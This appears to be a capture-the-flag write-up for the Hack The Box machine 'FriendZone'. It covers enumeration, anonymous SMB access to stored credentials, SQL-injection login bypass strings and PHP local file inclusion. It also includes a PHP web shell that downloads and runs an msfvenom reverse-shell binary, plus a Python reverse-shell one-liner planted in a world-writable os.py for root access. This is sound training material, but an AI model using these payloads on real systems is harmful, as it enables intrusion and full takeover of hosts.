









# [FriendZone](https://app.hackthebox.eu/machines/173)

Start off with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.123 &
# UDP deep scan
sudo nmap -sU --script "default,safe" -p1-65535 -oA udp --open -Pn -sV 10.10.10.123 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.123
# UDP quick scan
sudo nmap -sU -sC -F --open -Pn -sV 10.10.10.123 
```

The TCP quick scan returns the following:



Looks like there is a web service running. Spawn the following scanners in the background:

```bash
dirb http://10.10.10.123/ -r 
nikto -h http://10.10.10.123/ --maxtime=30s
```

Manually browsing to the website shows the following:


The HTML source does not show much and neither does `dirb` or `nikto`. The only interesting info here is the `friendzoneportal.red` domain name. Another domain `friendzone.red` is found by looking at the SSL certificate for the HTTPS service. Moving on...

```bash
echo -n | openssl s_client -connect 10.10.10.123:443 | grep email
```


The FTP service is `vsftpd` version 3.0.3. There are no exploits in `searchsploit` for this version or anonymous FTP logins allowed with `anonymous/anonymous`. Moving on...

The DNS service info from `nmap` is `9.11.3-1ubuntu1.2-Ubuntu`. Trying a zone transfer using the domain `friendzoneportal.red` from the HTTP/HTTPS scanning results in the following:

```bash
host -l friendzone.red 10.10.10.123
host -l friendzoneportal.red 10.10.10.123
```



There are a few doamins to look at now, so add them to `/etc/hosts` with the IP 10.10.10.123. Browsing to `http://friendzoneportal.red` shows the same website, but `https://friendzoneportal.red` shows something new:


Getting somewhere I guess? The other domains don't return anything but a 404 for HTTPS or the same default page for HTTP seen by browsing to `http://10.10.10.123`. However, `https://admin.friendzoneportal.red` shows the following:



Trying any login just returns the following: `Admin page is not developed yet !!! check for another one`. Trying `https://friendzone.red` shows the following:


Maybe getting somewhere? `https://administrator1.friendzone.red` shows the following:



Trying basic logins and basic SQL injection for a login bypass does not work. The HTML source does not have any interesting info nor are there any website cookies. Moving on..

- `admin/admin` - guess
- `admin/password` - guess
- `' or 1=1 # ` - SQL injection login bypass for username field
- `" or 1=1 #` - SQL injection login bypass for username field

`https://hr.friendzone.red` gets a 404, but `https://uploads.friendzone.red` returns the following:


Uploading a file shows a webpage like the following:


The HTML source does not have any interesting info nor are there any website cookies. Moving on... From the `nmap` output, the host is also running NetBIOS. It is possible to try and gain some basic system info with `rpcclient` if it is not password protected:

- https://book.hacktricks.xyz/pentesting/pentesting-smb

```bash
rpcclient -U '' -N 10.10.10.123 # empty username & no password
querydispinfo     # list users
enumdomusers      # list users
enumdomgroups     # list groups
enumdomains       # list domains
querydominfo      # domain info
lsaquery          # get SIDs
lsaenumsid        # get SIDs
lookupsids <sid>  # lookup SID
```



No authentication needed but nothing too exciting here. Next take a look at SMB on port 445 with `smbclient` to list any shares using an empty username and no password:

```bash
smbclient -U '' -N -L //10.10.10.123 # empty username & no password
```


Okay, getting warmer. There are a few interesting shares here. Next use `smbmap` to recursively enumerate these shares to see what is open for access:

```bash
smbmap -R 'Files' -H 10.10.10.123
smbmap -R 'general' -H 10.10.10.123
smbmap -R 'Development' -H 10.10.10.123
```



Connect to the `general` SMB share and download the `creds.txt`:

```bash
smbclient -U '%' -N \\\\10.10.10.123\\general
```


Nice! Those credentials work for `https://administrator1.friendzone.red` (`https://admin.friendzoneportal.red` didn't seem to have a valid login) and return HTML with the text `Login Done ! visit /dashboard.php`. The page `dashboard.php` has the following:


The page is hinting at a bad PHP script using the follwoing URL:

- `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp`

Using these URL HTTP GET parameters returns a page with the image `a.jpg` included in the HTML source from the following directory:

- `https://administrator1.friendzone.red/images`



Changing the `image_id` parameter to something like `../a.jpg` returns a page with a no image and the following HTML source:


Maybe there is a PHP local file inclusion vulnerability here? However, the file is sourced in the IMG HTML tag and not displayed for view. Nothing much with the `image_id` parameter. Looking at the `pagename` parameter's default value of `timestamp` only seems to match the output in the page printing the image's access timestamp.


`pagename` may reference another page? Run another directory scan but only look for PHP pages since the page we are on is `dashboard.php`:

```bash
# install scanner
sudo apt install gobuster
# prevent error during scanning
ulimit -n 8192
# run scan
gobuster dir -t 50 -k -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u https://administrator1.friendzone.red/
```

This new scan returns the following interesting results:



`timestamp.php` looks similar to the output from `dashboard.php`. Browsing to the page directly shows the following output: `Final Access timestamp is 1600452442`. So it does match the output for `dashboard.php` with the `pagename` GET parameter set to `timestamp`. Setting `pagename=dashboard` causes an interesting inception-like page inclusion of the `dashboard.php` page:


So this is likely PHP local file inclusion. However, to abuse this, custom PHP needs to be uploaded to get remote code execution. Looking back at the SMB share access, the `Development` share allows for read/write as any user. However, to execute uploaded PHP, the file path of the `Development` share is needed. This can be guessed to be `/etc/Development` since the SMB listing for the `Files` share says `/etc/Files`. To test, upload a simple PHP script and try to include it in the `dashboard.php` page:

```bash
echo 'test' > bubba.php
smbclient -U '%' -N \\\\10.10.10.123\\Development
put bubba.php
quit
```

Next browse to the following link:

- https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../../../../../../../../../../../../etc/Development/bubba
- **NOTE:** the number of `../` used isn't important and is used to just get to `/` no matter where this PHP code may be running from.

Now the page includes the output `test`! Next replace `bubba.php` with the following simple PHP web shell:

- **NOTE:** This assumes that the target has `wget`, which is a common enough linux utility.

```php
<?php
function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
executeCommand('wget http://10.10.14.13/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &');
?>
```

And generate `bubba.elf` with the following, upload it & host it:

```bash
# upload payload
smbclient -U '%' -N \\\\10.10.10.123\\Development
put bubba.php
quit
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.13 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
sudo python3 -m http.server 80
# wait for the callback
nc -nvlp 6969
```

After uploading and re-browsing to the same URL, a reverse shell is made:


Nice! This gets `user.txt`:


During enumeration, the following directory is found:

```bash
ls -ahlR /opt/
```



`reporter.py` has the following content:

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Permissions on the file are restricted and the login info in the script isn't helpful. Moving on... Looking for world-writable files  gives another interesting result as well:

```bash
find / -xdev -type f \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
```


`/usr/lib/python2.7/os.py` is not a standard world-writable file. That file is also included as a Python module in the `reporter.py` script. This can be exploited by adding code to `/usr/lib/python2.7/os.py` that spawns a reverse shell. Hopefully, this `reporter.py` script is executed in a cron job that is currently not visible to as the `www-data` user (with `crontab -l`) . Here is the Python reverse shell:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Append that code to `os.py` with the following and wait for the connection on port 7777:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);' >> /usr/lib/python2.7/os.py
```

And after waiting for a few, the following callback is established as `root`!


